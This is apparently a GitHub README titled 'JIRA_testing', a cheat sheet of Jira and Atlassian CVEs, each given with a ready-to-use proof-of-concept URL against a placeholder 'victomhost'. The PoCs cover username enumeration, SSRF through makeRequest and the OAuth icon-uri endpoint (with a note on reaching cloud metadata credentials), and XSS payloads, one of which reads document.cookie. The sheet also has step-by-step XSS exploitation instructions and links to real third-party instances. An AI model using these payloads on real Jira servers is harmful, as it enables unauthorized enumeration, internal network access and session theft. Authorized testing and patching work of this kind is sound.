 # JIRA_testing

### cve-2019-8449 - Username enumeration throw informaton disclosure vulnerability 

The /rest/api/latest/groupuserpicker resource in Jira before version 8.4.0 allows remote attackers to enumerate usernames via an information disclosure vulnerability. 
 https://jira.atlassian.com/browse/JRASERVER-69796
 https://victomhost/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
 
 -----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### cve-2019-8451:ssrf-response-body 
 
The /plugins/servlet/gadgets/makeRequest resource in Jira before version 8.4.0 allows remote attackers
to access the content of internal network resources via a Server Side Request Forgery (SSRF) vulnerability due to a logic bug in the JiraWhitelist class.

https://jira.atlassian.com/browse/JRASERVER-69793?jql=labels%20%3D%20
 https://victomhost/plugins/servlet/gadgets/makeRequest?url=https://victomhost:1337@example.com
 
 ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### RCE Jira=CVE-2019–11581
 
https://hackerone.com/reports/706841

/secure/ContactAdministrators!default.jspa

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2018-20824

 vulnerable to Server Side Request Forgery (SSRF). This allowed a XSS and or a SSRF attack to be performed. More information about the Atlassian OAuth plugin issue see 
 https://ecosystem.atlassian.net/browse/OAUTH-344 . 
 When running in an environment like Amazon EC2, this flaw can used to access to a metadata resource that provides access credentials and other
 potentially confidential information. 
 
https://victomhost/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2020-14179 :- Information disclosure

 Atlassian Jira Server and Data Center allow remote, unauthenticated attackers to view custom field names and custom SLA names via an Information Disclosure vulnerability 
 in the /secure/QueryComponent!Default.jspa endpoint.
REF=https://jira.atlassian.com/browse/JRASERVER-71536
POC: 
https://victomhost/secure/QueryComponent!Default.jspa

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### cve-2020-14181 :- Enumerate user via information disclosure

Atlassian Jira Server and Data Center allow an unauthenticated user to enumerate users via an Information Disclosure vulnerability in the
/ViewUserHover.jspa endpoint.

Ref=https://jira.atlassian.com/browse/JRASERVER-71560?jql=text%20~%20%22cve-2020-14181%22
 POC:
https://victomhost/secure/ViewUserHover.jspa
https://victomhost/ViewUserHover.jspa?username=Admin

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

https://hackerone.com/reports/380354
CVE-2018-5230
https://jira.atlassian.com/browse/JRASERVER-67289
HOW TO EXPLOIT:
https://host/issues/?filter=-8
Go to the link above
Click the "Updated Range:" text area
Put your XSS payload in "More than [ ] minutes ago" (15 character payload limit) or in "In range [ ] to [ ]" (No length limit, ONLY put the payload in the first box)
Click Update
Payload will run. If it doesn't run chances are you used double quotes somewhere. Only use single quotes!

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### jira-unauthenticated-dashboards  

https://victomhost/rest/api/2/dashboard?maxResults=100

jira-unauth-popular-filters 
 https://victomhost/secure/ManageFilters.jspa?filter=popular&filterView=popular
 
 ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 
 ### jira-unauth-popular-filters 
 
 https://victomhost/secure/ManageFilters.jspa?filter=popular&filterView=popular
https://hackerone.com/reports/197726
https://newrelic.atlassian.net/secure/ManageFilters.jspa?filterView=popular
https://newrelic.atlassian.net/secure/ManageFilters.jspa?filterView=search

https://hackerone.com/reports/139970

https://host/secure/ConfigurePortalPages!default.jspa?view=popular
https://host/secure/ManageFilters.jspa?filterView=search&Search=Search&filterView=search&sortColumn=favcount&sortAscending=false

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Xss

/pages/%3CIFRAME%20SRC%3D%22javascript%3Aalert(‘XSS’)%22%3E.vm

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-3403 :- user name enumeration throw information disclosure

Information disclosured vulnerability
1.()https://jira.atlassian.com/browse/JRASERVER-69242
visit the URL address,you can check the user whether is exist on this host
/rest/api/2/user/picker?query=admin

So the attacker can enumerate all existing users on this jira server.

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-8442 :- information disclosure

https://jira.atlassian.com/browse/JRASERVER-69241
visit the URL address,the server will leaking some server's information

/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2017-9506

https://blog.csdn.net/caiqiiqi/article/details/89017806
/plugins/servlet/oauth/users/icon-uri?consumerUri=https://www.google.nl

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2019-3402：[Jira]XSS in the labels gadget

/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=x2rnu%3Cscript%3Ealert(1)%3C%2fscript%3Et1nmk&Search=Search
ConfigurePortalPages.jspa

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2018-20824：[Jira]XSS in WallboardServlet through the cyclePeriod parameter

/plugins/servlet/Wallboard/?dashboardId=10100&dashboardId=10101&cyclePeriod=(function(){alert(document.cookie);return%2030000;})()&transitionFx=none&random=true


----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### CVE-2017-9506

https://ecosystem.atlassian.net/browse/OAUTH-344
 exploit an SSRF vulnerability in confluence and was able to perform several actions such as bypass any firewall/protection solutions,
 was able to perform XSPA through assessing the response times for ports, access Internal DoD Servers and internal services.

I discuss the vulnerabilities exploited in my write which you can find here, 
https://medium.com/bugbountywriteup/piercing-the-veil-server-side-request-forgery-to-niprnet-access-c358fd5e249a

https://host/plugins/servlet/oauth/users/icon-uri?consumerUri=https://ipinfo.io/json

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### username and email diclose

https://host/secure/popups/UserPickerBrowser.jspa

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

### Atlassian Jira Unauth User Enumeration (CVE-2020-36289) 

Jira < 8.5.13
 8.6.0 ≤ Jira < 8.13.5
 8.14.0 ≤ Jira < 8.15.1
 
 PoC:
 
 /secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin
 
 ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
